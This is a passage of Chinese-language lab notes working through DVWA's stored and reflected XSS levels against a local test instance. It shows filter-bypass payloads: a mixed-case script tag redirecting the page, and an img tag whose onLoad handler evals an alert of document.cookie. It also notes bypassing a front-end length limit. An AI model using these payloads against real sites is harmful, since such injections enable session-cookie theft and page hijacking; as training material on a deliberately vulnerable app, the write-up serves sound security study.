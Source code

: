 ```html
<sCript>location.href="https://1.1.1.1"</sCript>
```

這次後端顯然有過濾 Name 欄位

用  `img tag` + `onLoad` try try 看

Message 欄位也有過濾

```html
http://dvwa.localtest/vulnerabilities/xss_r/?name=<img src='https://picsum.photos/200/300' onLoad="eval(alert(document.cookie))">
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4dd11fac-810c-4707-908d-ccfdfa2c3847/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T132704Z&X-Amz-Expires=86400&X-Amz-Signature=2c897d163839c872c74c5d54392b4df7c7c0e2e4246b48a811276ce266c18927&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

### Done

第一個欄位可以用 img tag + onLoad @@ (一樣從前端修改長度限制)

```html
<img src='https://picsum.photos/200/300' onLoad="eval(alert(document.cookie))">
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/634fc04c-b395-46a9-9999-1b091626078b/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T133231Z&X-Amz-Expires=86400&X-Amz-Signature=a3d6bd9657e24b4a9c126f853d4ceeaaf8dfd59eed58de8cb44171abe30a24fc&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

運氣好有 try 到

原本還以為這關可能要使用 js 註解來迴避長度限制之類的
